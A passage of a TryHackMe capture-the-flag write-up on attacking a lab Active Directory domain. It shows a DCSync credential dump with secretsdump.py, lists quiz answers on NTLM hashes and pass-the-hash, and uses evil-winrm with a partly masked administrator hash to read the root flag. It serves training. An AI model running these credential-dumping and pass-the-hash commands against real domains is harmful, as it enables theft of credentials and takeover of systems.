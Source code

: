 ### Task 7: Elevating Privileges within the Domain
---

**Domain Privilege Escalation**

- The "backup" user account is directly associated with the Domain Controller.
- It holds a critical permission allowing it to sync all Active Directory changes, including password hashes.


```sh
secretsdump.py backup@spookysec.local
```

**Result:**

![Hashes](https://github.com/Incident-Clarity/incident-clarity-assets/blob/main/pix/web_assets/attacktivedirectory-THM-hashes.png?raw=true)


**Questions:**
1. What method allowed us to dump NTDS.DIT?
	- `DRSUAPI`
		- Top of the result `[*] Using the DRSUAPI method to get NTDS.DIT secrets`

2. What is the Administrators NTLM hash?
	- `0exxxxxxxxxxxxxxxxxxxxxxxxxxxfc`
		- Credentials format: (domain\uid:rid:lmhash:nthash)

3. What method of attack could allow us to authenticate as the user without the password?
	- `Pass the hash` 
		- hacking technique that allows an attacker to authenticate to a remote server or service by using the underlying NTLM or LanMan hash of a user’s password.

4. Using a tool called Evil-WinRM what option will allow us to use a hash?
	- `-H`


### Task 8: Flag Submission Panel
---

**Evil-WinRM**

Evil-WinRM is a powerful Windows Remote Management (WinRM) shell uses PowerShell for remote administration and control of Windows hosts, from enumeration to execution.

**Command:**
```sh
evil-winrm -i 10.10.60.39 -u Administrator -H 0exxxxxxxxxxxxxxfc
```

**Result:**
```sh
*Evil-WinRM* PS C:\Users\Administrator\Desktop> Get-Content "C:/Users/Administrator/Desktop/root.txt"
TryHackMe{4cxxxxxxxxxxxxxx3r}
```

